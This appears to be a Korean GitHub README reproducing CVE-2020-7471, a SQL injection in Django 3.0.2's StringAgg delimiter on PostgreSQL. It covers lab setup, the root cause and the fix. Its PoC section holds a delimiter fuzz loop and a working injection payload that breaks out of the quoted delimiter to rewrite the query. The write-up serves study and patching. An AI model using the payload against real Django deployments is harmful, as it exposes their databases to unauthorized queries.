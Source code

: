 # CVE-2020-7471

## 1. 환경 구성
+ **Ubuntu 20.04 버전**

+ **python 3.8.2 버전**

+ **Django 3.0.2 설치**
  + pip install django~=3.0.2
 
+ **postgresql 13 설치**
  + sudo apt-get update
  + sudo apt show postgresql
  + sudo apt -y install postgresql postgresql-contrib
  + /etc/init.d/postgresql start
 
+ **가상환경 구성**
  + virtualenv newenv
  + source newenv/bin/activate
  + pip install django~=3.0.2
  + django-admin --version
  + deactivate
 
+ **psycopg2 설치**
  + pip install psycopg2==2.8.6
+ **setting.py 설정**  
```
#setting.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'hxd',         
        'USER': 'postgres',
        'PASSWORD': '123456',
        'HOST': '127.0.0.1',
        'PORT': '5432',
    }
}
```
+ **마이그레이션**
```
#DB에 적용하는 과정
python3 manage.py migrate

#test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
python3 manage.py makemigrations test_app

#test_app 앱을 DB에 적용하는 과정
python3 manage.py migrate test_app
```
+ **DB 생성**
  + CREATE DATABASES test
  + DB 조회: \c test
  + 테이블 조회: \d
  + 컬럼 조회: select * from vul_app_info;
 
    ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

--------------------------------------------------------------------------------------------------------------------------
## 2. PoC
### 내부 파이썬 환경에서만 테스트 
+ **구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램**
```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```
 + **정상적인 SQL 구문 출력**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

   ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)


  + **SQL Injection 구문**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
```

   ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)


+ **python CVE-2020-7471.py**

![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


---------------------------------------------------------------------------------------------------------------------

## 3. 원인 분석

+ **테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력**

  ![2](https://user-images.githubusercontent.com/89399749/130898422-3cf70a46-237a-497c-9546-792e2021fd2a.png)


+ **self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인**

![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)  

+ **86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인**

![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)


+ **작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인**


![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)

## 4. 대응 방안

+ **delimiter_expr = Value(str(delimiter))**
  + **해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함**

![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

---------------------------------------------------------------------------------------------------------------------

## 5. 참조
+ https://github.com/Safeman/CVE-2020-7471
+ https://www.heibai.org/1661.html
